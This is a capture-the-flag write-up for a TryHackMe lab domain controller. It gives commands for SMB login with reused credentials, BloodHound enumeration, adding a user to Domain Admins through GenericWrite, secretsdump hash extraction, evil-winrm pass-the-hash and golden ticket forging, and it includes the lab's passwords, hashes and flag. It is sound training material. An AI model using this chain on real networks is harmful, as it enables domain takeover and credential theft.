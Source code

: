 # DC.TRYHACKME.LOC

## Machine Information

Domain User from WRK machine: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



## Access via SMB with owned user

With discovered user in the WRK machine we can authenticate in the DC with SMB.

```bash
proxychains nxc smb 10.200.150.10 -u "svc.callback" -p 'qvBVAj9avM3ykcbf9s'
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



## Lateral Movement

### Bloodhound Enumeration

Get information through the ingest

{% code overflow="wrap" %}
```bash
proxychains bloodhound-python -c all -ns 10.200.150.10 -dc DC.TRYHACKME.LOC -d TRYHACKME.LOC --zip -u 'svc.callback@TRYHACKME.LOC' -p 'qvBVAj9avM3ykcbf9s'
```
{% endcode %}

Checking the LDAP data in Bloodhound interface, notice that the user `SVC.CALLBACK` has `GenericWrite` privileges to `Domain Admins` group.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



### GenericWrite priv to Domain Admins

With this privileges we can add a user to Domain Admins group

{% code overflow="wrap" %}
```bash
proxychains net rpc group addmem "Domain Admins" "SVC.CALLBACK" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

Now check if the user was successfully added to the Domain Admins Group

{% code overflow="wrap" %}
```bash
proxychains net rpc group members "Domain Admins" -U "TRYHACKME.LOC"/"SVC.CALLBACK"%"qvBVAj9avM3ykcbf9s" -S "DC.TRYHACKME.LOC"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>



## Dump credentials with Impacket

With impacket-secretsdump tool dump credentials.

{% code overflow="wrap" %}
```bash
proxychains impacket-secretsdump TRYHACKME.LOC/"SVC.CALLBACK":"qvBVAj9avM3ykcbf9s"@DC.TRYHACKME.LOC
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



## Access to DC as Administrator

Using evil-winrm tool an attacker can get access to a Remote Powershell shell as Administrator using the NTLM dumped.

{% code overflow="wrap" %}
```bash
proxychains evil-winrm -i DC.TRYHACKME.LOC -u 'Administrator' -H '581832e2ee43f9b866f4a3dcaf63a0e0'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



## Golden Ticket&#x20;

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:399b08294203eeafef6c1ec6d5747127:::
```

FQDN: DC.tryhackme.loc

Domain SID: S-1-5-21-1966530601-3185510712-10604624

Enterprise admin sid: S-1-5-21-1966530601-3185510712-10604624-519

Administrator user sid: S-1-5-21-1966530601-3185510712-10604624-500

### Forge ticket

{% code overflow="wrap" %}
```
proxychains impacket-ticketer -nthash "399b08294203eeafef6c1ec6d5747127" -domain-sid "S-1-5-21-1966530601-3185510712-10604624" -domain "TRYHACKME.LOC" "Administrator" -groups 519 -user-id 500
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>



## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{6ab86ae6-631e-4342-85a1-b104ffe45ea7}
```

